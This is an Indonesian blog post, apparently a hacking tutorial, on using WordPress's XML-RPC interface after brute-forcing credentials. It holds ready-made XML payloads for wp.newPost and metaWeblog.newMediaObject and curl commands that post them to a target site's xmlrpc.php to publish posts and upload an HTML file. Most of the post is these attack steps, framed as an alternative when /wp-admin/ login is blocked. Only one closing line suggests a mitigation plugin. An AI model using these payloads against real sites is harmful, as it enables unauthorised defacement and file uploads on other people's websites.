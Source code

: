 ```yaml
---
layout: post
title: "Exploiting XML-RPC API pada WordPress"
tags: tutorial, exploit, hacking
category: exploit
description: Vulnerability pada XML-RPC bukan hanya BruteForce saja...
comments: true
fullview: false
---
```

<!-- excerpt-start -->Vulnerability pada XMLRPC / tahap setelah BruteForce / alternatif jika gagal login ke /wp-admin/ (403/404/500)


1. Add Post (Menambahkan Postingan)
Menambahkan Postingan Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addpost.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version=&quot;1.0&quot;?&gt; &lt;methodCall&gt;
&lt;methodName&gt;wp.newPost&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;post_title&lt;/name&gt;&lt;value&gt;Exploit To Add Post with XML-RPC&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_content&lt;/name&gt;&lt;value&gt;Seems Like The Site Was Vulnerable!&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_excerpt&lt;/name&gt;&lt;value&gt;excerpt&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;</textarea>
 Saatnya mengexploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addpost.xml

Jika sukses akan tampil seperti ini:



Angka 6 adalah id postnya

Cara melihat postingannya dengan menambahkan ?p=idpostingan 

Contoh: http://vulnsite.com/?p=6



Post Sukses Dibuat.



 Add Media/File (Menambahkan Media/File)


Menambahkan Media atau File Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addfile.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version="1.0"?&gt; &lt;methodCall&gt;
&lt;methodName&gt;metaWeblog.newMediaObject&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;name&lt;/name&gt;&lt;value&gt;touched.html&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;type&lt;/name&gt;&lt;value&gt;text/plain&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;bits&lt;/name&gt;&lt;value&gt;
                &lt;![CDATA[&lt;h1&gt;&lt;center&gt;File Uploaded Success&lt;br/&gt;XML-RPC add file exploit&lt;/center&gt;&lt;/h1&gt;]]&gt;
&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;
&lt;/methodCall&gt;</textarea>


Exploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addfile.xml

Jika sukses akan tampil seperti ini:



File sukses disimpan sesuai dengan nama yg telah ditentukan, di sini saya namakan filenya touched.html

Cara melihat hasil file yg tersimpan:

http://vulnsite.com/wp-content/uploads/2021(tahun saat upload)/05(bulan saat upload/namafile.html

Mari kita cek!:



File sukses terupload!



Cara mencegah exploit ini adalah dengan menginstall plugin bernama "Disable XML-RPC" lalu aktifkan, dan xmlrpc akan aman.



Sekian dari saya, semoga berguna dan bermanfaat!




